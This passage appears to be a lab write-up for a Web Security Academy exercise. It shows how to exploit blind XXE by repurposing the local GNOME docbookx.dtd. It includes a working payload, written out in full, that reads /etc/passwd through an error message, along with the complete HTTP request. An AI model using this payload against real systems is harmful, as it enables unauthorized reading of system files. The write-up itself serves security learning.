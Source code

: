 An attacker can edit the request to repurpose a local DTD. The main challenge is to find an existing DTD. 

For example, systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

Knowing this, the attacker can write this payload that will lead to leak the `/etc/passwd` file: 

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::

